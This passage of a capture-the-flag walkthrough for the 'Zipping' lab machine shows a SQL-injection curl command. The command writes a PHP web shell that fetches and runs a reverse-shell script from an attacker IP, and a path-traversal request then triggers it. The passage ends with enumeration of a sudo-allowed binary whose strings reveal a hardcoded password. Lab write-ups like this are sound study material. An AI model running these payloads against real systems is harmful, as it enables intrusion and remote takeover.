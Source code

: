```
$ curl -s http://zipping.htb/shop/index.php?page=product&id=%0A'%3bselect+'<%3fphp+system(\"curl+http%3a//10.10.16.63:8000/revshell.sh|bash\")%3b%3f>'+into+outfile+'/var/lib/mysql/rvsl.php'+%231"

$ curl -s http://zipping.htb/shop/index.php?page=..%2f..%2f..%2f..%2f..%2fvar%2flib%2fmysql%2frvsl
```

And we got the Reverse shell.

## Root Flag

Looking for what scripts can be run by rektsu by `sudo -l`

```
rektsu@zipping:/home/rektsu$ sudo -l
Matching Defaults entries for rektsu on zipping:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User rektsu may run the following commands on zipping:
    (ALL) NOPASSWD: /usr/bin/stock
```

Reading the contents of the stocks file. We find that its a binary file.

```
rektsu@zipping:/home/rektsu$ strings /usr/bin/stock 
strings /usr/bin/stock
/lib64/ld-linux-x86-64.so.2
mgUa
fgets
stdin
puts
exit
fopen
__libc_start_main
fprintf
dlopen
__isoc99_fscanf
__cxa_finalize
strchr
fclose
__isoc99_scanf
strcmp
__errno_location
libc.so.6
GLIBC_2.7
GLIBC_2.2.5
GLIBC_2.34
_ITM_deregisterTMCloneTable
__gmon_start__
_ITM_registerTMCloneTable
PTE1
u+UH
Hakaize
St0ckM4nager
/root/.stock.csv
Enter the password: 
Invalid password, please try again.
================== Menu ==================
1) See the stock
2) Edit the stock
3) Exit the program
Select an option: 
You do not have permissions to read the file
File could not be opened.
```